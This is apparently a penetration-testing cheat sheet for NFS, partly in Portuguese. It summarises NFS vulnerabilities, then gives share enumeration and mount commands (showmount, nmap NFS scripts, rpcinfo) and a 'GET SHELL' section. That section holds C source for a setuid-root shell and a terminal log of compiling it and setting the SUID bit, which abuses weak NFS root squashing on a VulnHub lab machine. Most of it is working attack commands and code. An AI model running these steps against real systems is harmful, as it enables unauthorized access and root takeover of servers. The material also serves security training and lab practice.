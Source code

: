 credits: s0wr0b1ndef , gajos112 and jivoi

-----------------------------NFS DESCRIPTION-----------------------------

1. Network FILE SYSTEM

Network File System (NFS) - remote filesystem access [RFC 1813] [RFC5665]. A commonly scanned and exploited attack vector. Normally, port scanning is needed to find which port this service runs on, but since most installations run NFS on this port, hackers/crackers can bypass fingerprinting and try this port directly.

FreeBSD is vulnerable to a denial of service attack. A remote attacker could send a specially-crafted NFS Mount request to TCP port 2049 to cause a kernel panic, resulting in a denial of service.
References: [CVE-2006-0900] [BID-16838]

Stack-based buffer overflow in nfsd.exe in XLink Omni-NFS Server 5.2 allows remote attackers to execute arbitrary code via a crafted TCP packet to port 2049 (nfsd), as demonstrated by vd_xlink.pm.
References: [CVE-2006-5780] [BID-20941] [SECUNIA-22751]

Novell Netware is vulnerable to a stack-based buffer overflow, caused by improper bounds checking by the xnfs.nlm component when processing NFS requests. By sending a specially-crafted NFS RPC request to UDP port 2049, a remote attacker could overflow a buffer and execute arbitrary code on the system or cause the server to crash.

-----------------------------NFS MOUNT-----------------------------

2. Mount NFS share

```
root@kali:~# showmount -h
Usage: showmount [-adehv]
[--all] [--directories] [--exports]
[--no-headers] [--help] [--version] [host]
root@kali:~# showmount 172.16.1.109
Hosts on 172.16.1.109:
root@kali:~# showmount -e 172.16.1.109
Export list for 172.16.1.109:
/var/nfsshare *
root@kali:~# mkdir /tmp/nfs
root@kali:~# mount -t nfs 172.16.1.109:/var/nfsshare /tmp/nfs -nolock
root@kali:~# cd /tmp
root@kali:/tmp# ls -al
total 52
drwxrwxrwt 12 root       root       4096 Oct 30 23:22 .
drwxr-xr-x 22 root       root       4096 Sep 29 03:47 ..
...
drwxr-x---  2 nobody     4294967294 4096 Sep  2  2012 nfs
...
root@kali:/tmp# cd /tmp/nfs
```

----------------------------------------------s0wr0b1ndef----------------------------------
```
nmap -sV --script=nfs-* 172.16.1.109
nmap -sV --script=nfs-ls 172.16.1.109  //same result as rpcinfo
nmap -sV --script=nfs-* 172.16.1.109 // all nfs scripts

rpcinfo -p 172.x.x.x
rpcclient -I 172.x.x.x

#mount NTFS share
mount -t nfs 172.16.1.109:/var/nfsshare /tmp/nfs -nolock

#enumerate NFS shares
showmount -e 172.16.1.109

# If you see any NFS related ACL port open, see /etc/exports
#   2049/tcp  nfs_acl
# /etc/exports: the access control list for filesystems which may be exported to NFS clients.  See exports(5).

READ:
https://pentestlab.blog/tag/rpc/

See root squashing
https://haiderm.com/linux-privilege-escalation-using-weak-nfs-permissions/
```
--------------------------------------------------GET SHELL--------------------------------------------

Veja: https://www.securitynewspaper.com/2018/04/25/use-weak-nfs-permissions-escalate-linux-privileges/

Crie seu shell em C e compile:

```
// gcc -o /tmp/rootshell /tmp/rootshell.c
// chmod u+s /tmp/rootshell

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
setuid(0); setgid(0); system("/bin/bash");
}
```
```
root@an4kein:~/vulnhub/bravery/compile# vim rootshell.c^C
root@an4kein:~/vulnhub/bravery/compile# cat rootshell.c 
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
        setuid(0); setgid(0); system("/bin/bash");
}
root@an4kein:~/vulnhub/bravery/compile# ls
rootshell.c
root@an4kein:~/vulnhub/bravery/compile# gcc -o rootshell rootshell.c
rootshell.c: In function ‘main’:
rootshell.c:6:24: warning: implicit declaration of function ‘system’ [-Wimplicit-function-declaration]
    6 |  setuid(0); setgid(0); system("/bin/bash");
      |                        ^~~~~~
root@an4kein:~/vulnhub/bravery/compile# ls
rootshell  rootshell.c
root@an4kein:~/vulnhub/bravery/compile# chmod u+s rootshell
root@an4kein:~/vulnhub/bravery/compile# ls
rootshell  rootshell.c
root@an4kein:~/vulnhub/bravery/compile# 
```

